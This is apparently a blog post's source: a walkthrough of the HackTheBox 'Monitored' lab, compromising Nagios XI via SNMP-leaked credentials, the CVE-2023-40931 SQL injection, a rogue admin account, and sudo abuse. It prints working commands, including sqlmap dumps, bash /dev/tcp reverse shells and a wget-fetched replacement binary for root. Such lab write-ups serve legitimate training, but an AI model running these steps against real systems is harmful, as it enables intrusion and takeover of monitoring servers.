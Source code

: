 ```yaml
---
title: "CTF: Monitored (Linux, Medium)"
excerpt: "A detailed walkthrough of \"Monitored\" machine on HackTheBox."
tagline: ""
header:
  teaser: /docs/assets/images/teasers/ctf/monitored.png
  og_image: /docs/assets/images/teasers/ctf/monitored.png
  overlay_image: /docs/assets/images/teasers/ctf/monitored2.png
author_profile: false
share: false
tags:
  - HackTheBox
  - Linux
  - Difficulty-Medium
  - SQLi
categories:
  - CTF
toc: true
toc_sticky: true
toc_label: "Table of Contents"
---
```


## Description

This is a detailed walkthrough of "Monitored" machine on HackTheBox platform that is based on Linux operating system and categorized as "Medium"
by difficulty. The machine has Nagios XI software running on it and involves utilizing a vulnerability chain (including SQL Injection) to establish a foothold on the system. Privilege escalation requires abusing sudo permissions on system scripts.

## Reconnaissance

The reconnaissance part is **extremely** important on this machine and unforgiving to mistakes.
The default **nmap** scan reveals the following services:

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/monitored/nmapscan.png" alt="">
  <figcaption></figcaption>
</figure>

The services of our interest here are http, https and ldap. Attempting to dump credentials from LDAP using anonymous login leads to no result:

```bash
nmap -n -sV --script "ldap*" <IP> -p 389
```
<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/monitored/ldapdump.png" alt="">
  <figcaption></figcaption>
</figure>

Here comes the important part, missing which can cause the challenger to enter a rabbit hole. It's necessary to run a UDP scan as there's **SNMP** service running on port 161 UDP. From that service, it's possible to dump SNMP process list. One of the processes will contain **credentials** required to authenticate in Nagios.

The following nmap scan reveals the credentials:

```bash
nmap -sU -sC -sV -T4 <IP> #-sU - UDP Scan; -sC - run default scripts, -sV - enumerate service version, -T4 - scan speed
```
<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/monitored/snmpcreds.png" alt="">
  <figcaption></figcaption>
</figure>

Navigate to *https://monitored.htb*. You will be presented with the following login page:

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/monitored/nagiosinitialpage.png" alt="">
  <figcaption></figcaption>
</figure>

It is not possible to login with the discovered credentials there, however, they can be used at Nagios system dashboard located at *https://monitored.htb/nagios/*. Navigate there and enter the credentials in the pop-up window. Successful authentication should present the following page:

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/monitored/nagioscorelogin.png" alt="">
  <figcaption></figcaption>
</figure>

### CVE-2023-40931

We have achieved authenticated access to Nagios. The time has come for an exhausting vulnerability research. Eventually, it will lead the challenger to this [article](https://outpost24.com/blog/nagios-xi-vulnerabilities/) on Outpost24. It reveals information about CVE-2023-40931 - "SQL Injection in Banner acknowledging endpoint". When a user acknowledges a banner, a POST request is sent to */nagiosxi/admin/banner_message-ajaxhelper.php* with the POST data consisting of the intended action and message ID – *action=acknowledge banner message&id=3*.

The ID parameter is assumed to be trusted but comes directly from the client without sanitization. This leads to a SQL Injection where an authenticated user with low or no privileges can retrieve sensitive data, such as from the *xi_session* and *xi_users* table containing data such as emails, usernames, hashed passwords, API tokens, and backend tickets. This vulnerability does not require the existence of a valid announcement banner ID, meaning it can be exploited by an attacker at any time.

## Weaponization / Exploitation

Firstly, it is necessary to request authentication token for our current user. According to this [thread](https://support.nagios.com/forum/viewtopic.php?p=310411#p310411) on Nagios support forum, it can be done by issuing the following command:

```bash
curl -XPOST -k -L 'https://nagios.monitored.htb/nagiosxi/api/v1/authenticate?pretty=1' -d 'username=<USERNAME>&password=<PASSWORD>&valid_min=500'
```
<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/monitored/authtoken.png" alt="">
  <figcaption></figcaption>
</figure>

Now that the tokes has been received, let's attempt to dump *xi_users* table with **sqlmap**:

```bash
sqlmap -u "https://nagios.monitored.htb/nagiosxi/admin/banner_message-ajaxhelper.php?action=acknowledge_banner_message&id=3&token=<YOUR TOKEN>" --level 5 --risk 3 -p id --batch -D nagiosxi -T xi_users --dump
```
<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/monitored/adminapi.png" alt="">
  <figcaption>sqlmap dump reveals admin API token</figcaption>
</figure>

*xi_users* table cotains Nagios Administrator account API token that can be used to query Nagios API to create a new user with administrative privileges as described on the following [page](https://support.nagios.com/forum/viewtopic.php?p=310411#p310411) on Nagios support forum. The command do to so is the following:

```bash
curl -k "https://nagios.monitored.htb/nagiosxi/api/v1/system/user?apikey=<ADMIN API KEY>&pretty=1" -d "username=<DESIRED USERNAME>&password=<DESIRED PASSWORD>&name=adminlol&email=adminlol@localhost&auth_level=admin"
```
<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/monitored/createnewadmin.png" alt="">
  <figcaption></figcaption>
</figure>

Navigate to *https://nagios.monitored.htb/nagiosxi/* and login with your newly created account. After accepting license agreement and password change form, the challenger is presented with Nagios administrative dashboard.

## Foothold

Navigate to Configure => Core Config Manager => Commands => Add New

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/monitored/coreconfig.png" alt="">
  <figcaption></figcaption>
</figure>

Create a reverse shell command with the following parameters:
* Command type: check
* Check "Active" box
* Enter the reverse shell command in the "Command view" field and click save.

```bash
bash -c 'bash -i >& /dev/tcp/<YOUR IP>/<YOUR PORT> 0>&1'
```
<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/monitored/shellcommand.png" alt="">
  <figcaption></figcaption>
</figure>


Start a Netcat reverse listener:

```bash
nc -lvnp <PORT SPECIFIED IN REVERSE SHELL COMMAND>
```

In Nagios, navigate to Monitoring => Hosts => localhost. In the Host Managment menu, select the created reverse shell command and click "Run Check Command" as shown on the screenshot:

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/monitored/runshellcommand.png" alt="">
  <figcaption></figcaption>
</figure>

A reverse shell should be sent to Netcat listener, providing you with a foothold into the system.

### User flag

Find nagios user flag in its home directory.

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/monitored/userflag.png" alt="">
  <figcaption></figcaption>
</figure>

## Privilege escalation

Check what the current user is able to run with administrative privileges:

```bash
sudo -l
```
<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/monitored/sudoloutput.png" alt="">
  <figcaption></figcaption>
</figure>

Among the scripts that appear there is **manage_services.sh**. Display its contents:

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/monitored/scriptcontents.png" alt="">
  <figcaption></figcaption>
</figure>

It is evident that by executing **manage_services.sh** the user is able to control several services that include **npcd** service. Display the contents of **npcd** service to analyze it:

```bash
systemctl cat npcd
```
The service indicates location of its binary file available by the following path */usr/local/nagios/bin/npcd*. Check permissions on the file:
```bash
ls -l /usr/local/nagios/bin/npcd
```
<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/monitored/catnpcdservice.png" alt="">
  <figcaption></figcaption>
</figure>

The current user has write permissions on the **npcd** binary. It is possible to replace contents of the file and execute it with system privileges. On your local machine, create a file called **npcd** with the following contents:

```bash
#!/bin/bash

bash -i >& /dev/tcp/<IP ADDR>/<PORT> 0>&1
```
Open a Netcat listener on the port of your choice. Then, start a Python HTTP server to host your npcd file. On the target system, download it, stop **npcd** service and replace the original **npcd** file located in **/usr/local/nagios/bin/** with the created one:

```bash
# On the Attacker machine:
nc -lnvp <PORT>
python3 -m http.server <PORT> # start HTTP server in the directory where npcd file is located

# On the target machine:
sudo /usr/local/nagiosxi/scripts/manage_services.sh stop npcd # Stop npcd service to be able to replace the binary
wget http://<IP ADDR>:<PORT>/npcd # Download npcd file from HTTP server
mv npcd /usr/local/nagios/bin/  # Move the downloaded file into target directory, replacing the original file
chmod +x /usr/local/nagios/bin/npcd # Assign executable permissions to the file
sudo /usr/local/nagiosxi/scripts/manage_services.sh start npcd # Start npcd service to receive root shell
```
### Root flag

After transferring **npcd** file containing reverse shell command and replacing the original file with it, start **npcd** service again and, if instructions were completed correctly, the Attacker machine will receive a callback with root privileges. Navigate to */root* directory to get the root flag.

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/monitored/root.png" alt="">
  <figcaption></figcaption>
</figure>

**Thank you for your attention and happy hacking!**
{: .notice--primary}
